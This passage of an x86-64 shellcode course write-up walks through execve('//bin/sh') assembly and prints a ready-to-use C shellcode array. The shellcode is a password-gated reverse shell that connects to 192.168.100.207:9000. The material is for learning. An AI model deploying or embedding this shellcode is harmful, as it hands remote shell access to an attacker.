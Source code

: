##### Execve

manpage arguments: ```int execve(const char *pathname, char *const argv[], char *const envp[]);```

+ RAX will be zeroed out and used mainly for pushing its NULL DWORD. Furthermore, the syscall value for ```execve``` will be given at the ending.
+ RBX has to hold the ```//bin/sh``` value for itself to be pushed into the stack.
+ RDI may copy the value from the stack.
+ RDX must be set to zero, through the RAX DWORD.
+ RDI shall be pushed and RSI will copy the value from the stack.
+ The syscall is executed.

```term
execve:

       xor rax, rax           ; Zeroes out RAX.
       push rax               ; Pushes the NULL DWORD of RAX.

       mov rbx, '//bin/sh'    ; Gives RBX the value '//bin/sh'
       push rbx               ; Pushes the value of RBX into the Stack.

       mov rdi, rsp           ; Copies the value of RSP into RDI.
       push rax               ; Pushes the NULL DWORD of RAX.

       mov rdx, rsp           ; Copies the value of RSP into RDX, giving a value of 0.
       push rdi               ; Pushes the value of RDI into the Stack.

       mov rsi, rsp           ; Copies the value of RSP into RSI.

       push word 59           ; Pushes word 59 (execve) into the stack.
       pop ax                 ; Pops such word into ax so there are no nulls.

       syscall                ; The syscall is executed.
```

#### Final Code

The full code can be found [here](https://github.com/whitecr0wz/SLAE/blob/main/SLAE64/Assignment_2/1.asm)

Let's assemble, link this and get its shellcode!

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_2$ nasm -f elf64 1.asm -o 1.o && ld 1.o -o 1 && for i in $(objdump -d 1 -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```

###### C format

```term
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x48\x31\xc0\x48\x31\xdb\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xed\x66\x6a\x29\x66\x58\x48\xff\xc7\x48\xff\xc7\x48\xff\xc6\x52\x0f\x05\x48\x89\xc3\xbd\xc0\xa8\x64\xcf\x66
\x6a\x2a\x66\x58\x48\x89\xdf\x52\x55\x66\x68\x23\x28\x66\x6a\x02\x48\x89\xe6\xb2\x32\x0f\x05\x48\x31\xf6\x48\xff\xc6\x48\xff\xc6\x48\xff\xc6\x66\x6a\x21\x66\x58\x48\x89\xdf\x48\
xff\xce\x0f\x05\x75\xf1\xeb\x2b\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x57\x5d\x55\xfe\xc0\x48\xff\xc7\x48\x83\xc6\x20\x56\x48\xbe\x46\x61\x69\x6c\x75\x72\x65\x2e\x56\x
48\x89\xe6\xb2\x09\x0f\x05\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x57\x5d\x55\xfe\xc0\x48\xff\xc7\x48\xbe\x65\x6e\x74\x69\x61\x6c\x73\x3a\x56\xbe\x43\x72\x65\x64\x56\x4
8\x89\xe6\xb2\x10\x0f\x05\x48\x31\xc0\x48\x31\xff\x48\x31\xd2\x52\x5d\x55\x48\x89\xe6\xb2\x1e\x0f\x05\x48\x89\xe7\x48\x31\xc0\x48\x31\xf6\x48\x31\xd2\x48\xbe\x61\x6d\x4c\x44\x53
\x48\x38\x64\x56\x48\xbe\x4b\x36\x7a\x6a\x5a\x70\x55\x4b\x56\x48\x89\xe6\x48\x31\xc9\xb1\x10\xf3\xa6\x0f\x85\x64\xff\xff\xff\x48\x31\xc0\x50\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\
x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x66\x6a\x3b\x66\x58\x0f\x05"

```